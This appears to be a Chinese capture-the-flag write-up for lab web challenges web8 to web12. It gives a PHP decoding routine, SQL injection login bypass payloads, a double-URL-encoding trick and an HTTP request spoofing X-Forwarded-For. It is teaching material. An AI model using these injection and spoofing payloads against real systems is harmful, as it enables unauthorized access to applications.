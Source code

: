 ### web8 
没啥好说的，解密算法如下：
```php

function   decode($miwen){
    $de_rot13=str_rot13($miwen);
    $de_strev=strrev($de_rot13);
    $de_base64=base64_decode($de_strev);
    $de_base64=strrev($de_base64);
    $mingwen="";
    for($i=0;$i<strlen($de_base64);$i++){
        $tmp=substr($de_base64,$i,1);
        $tmp=ord($tmp)-1;
        $tmp=chr($tmp);
        $mingwen.=$tmp;   
    }
    return $mingwen;
}
echo decode($miwen);
```

### web9 

考察最基本的sql注入
```
user=dddd' union select 'c4ca4238a0b923820dcc509a6f75849b' %23&pass=1
```
c4ca4238a0b923820dcc509a6f75849b 是1的md5值。 

### web10 
问题出在了那句urldecode()上，
因为$_GET里面的字符是已经经过一次urldecode()的，这里又操作了一次，显然有问题，所以经过两次urlencode()就可以了。
```
?id=hackerD%254a
```

### web11 

基础的sql注入：

```
user=admin') and 1=1 %23&pass=1
```

### web12
利用 X_FORWARDED_FOR 伪造ip来源。
```
GET /shiyanba/web12.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
X-forwarded-for: 1.1.1.1
Upgrade-Insecure-Requests: 1

```
### web14
